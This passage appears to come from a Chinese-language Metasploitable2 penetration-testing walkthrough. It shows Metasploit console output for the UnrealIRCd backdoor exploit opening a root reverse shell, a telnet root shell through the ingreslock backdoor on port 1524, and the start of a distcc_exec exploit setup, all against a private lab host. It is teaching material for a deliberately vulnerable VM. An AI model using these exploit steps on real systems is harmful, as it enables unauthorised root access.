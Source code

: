 msf exploit(unreal_ircd_3281_backdoor) > **exploit** 

[*] Started reverse double handler

[*] Connected to 192.168.99.131:6667…

  :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname..

  :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn&#039;t resolve your host   name; using your IP address instead

[*] Sending backdoor command…

[*] Accepted the first client connection…

[*] Accepted the second client connection…

[*] Command: echo 8bMUYsfmGvOLHBxe;

[*] Writing to socket A

[*] Writing to socket B

[*] Reading from sockets…

[*] Reading from socket B

[*] B: "8bMUYsfmGvOLHBxe\r\n"

[*] Matching…

[*] A is input…

[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700

**id**

uid=0(root) gid=0(root)

在少数服务器上存在一个古老的令人惊讶的“ingreslock”后门，监听1524端口。在过去的十年里，它经常被用于入侵一个暴露的服务器。它的利用是如此简单。

root@ubuntu:~# **telnet 192.168.99.131 1524**

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

root@metasploitable:/# **id**

uid=0(root) gid=0(root) groups=0(root)

**服务：无意识的后门**

除了上个部分介绍的恶意的后门以外，一些程序的性质本身就类似后门。Metasploitable2 最先安装的是distccd。这个程序可以使大量代码在网络服务器上进行分布式编译。问题是攻击者可以滥用它来实现一些他们想运行的命令。metasploit在下面例子里证明。

**msfconsole**

msf > **use exploit/unix/misc/distcc_exec** 

msf exploit(distcc_exec) > **set RHOST 192.168.99.131**
